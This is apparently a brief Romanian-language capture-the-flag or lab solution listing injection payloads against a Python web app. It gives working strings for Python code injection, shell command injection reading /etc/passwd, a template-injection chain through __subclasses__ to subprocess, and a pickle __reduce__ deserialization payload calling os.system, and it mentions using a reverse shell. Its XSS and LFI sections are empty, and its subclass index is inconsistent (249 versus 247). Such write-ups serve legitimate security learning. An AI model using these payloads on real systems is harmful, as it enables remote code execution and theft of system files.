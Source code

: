 python -O -m py_compile main.py
Python2.
Rezolvare:

1.Python code injection:
__import__('subprocess').Popen('uname -a',shell=True,stdout=__import__('subprocess').PIPE).stdout.read().decode('utf-8')

2.Command execution:
test || cat /etc/passwd

3.Template injection:
https://hackerone.com/reports/125980 - copiat dupa asta mai exact scrii {{command}} ca sa se execute, unde {{}} e templateul. Identifici cu comanda de mai jos ce biblioteci sunt folosite in cod si apoi folosesti urmatorul payload:
     {{ [].__class__.__base__.__subclasses__() }}

{{''.__class__.mro()[2].__subclasses__()[249]('uname -a',shell=True,stdout=-1).communicate()[0]}} - 247 este pozitia pe care avem biblioteca subprocess.

4.Deserialization:
class Blah(object):
    def __reduce__(self):
        return (os.system,("uname -a",))
h=Blah()
base64.b64encode(cPickle.dumps(h))
----- os.system va returna 0 ceea ce inseamna ca se executa ( de fel folosesti un reverse shell pt asta)

5. xss:

6. LFI

